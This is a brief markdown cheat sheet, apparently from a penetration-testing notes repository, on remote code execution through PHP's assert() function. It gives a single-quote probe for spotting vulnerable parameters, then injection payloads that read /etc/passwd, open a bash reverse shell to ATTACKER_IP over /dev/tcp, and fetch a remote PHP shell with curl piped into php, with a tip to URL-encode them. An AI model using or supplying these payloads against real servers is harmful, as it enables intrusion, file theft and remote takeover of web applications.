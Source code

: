 # PHP Assertions RCE

PHP assert() fucntion can be vulnerable to RCE.

### 1) Identification

On a parameter, try to add a single quote (')

    http://domain.local/index.php?page='

If you get a 500 internal server error, it is most likely vulnerable to RCE.

### 2) Payloads to use

Read files from the machine

    ' and die(show_source('/etc/passwd')) or '
    '.system("cat /etc/passwd").'

Get a reverse shell

    ' and die(exec('bash -c "/bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1"')) or '
    '.system("curl http://ATTACKER_IP/revshell.php | php").'
    
## You might need to URL encode the payload for it to work (encode special characters too!)
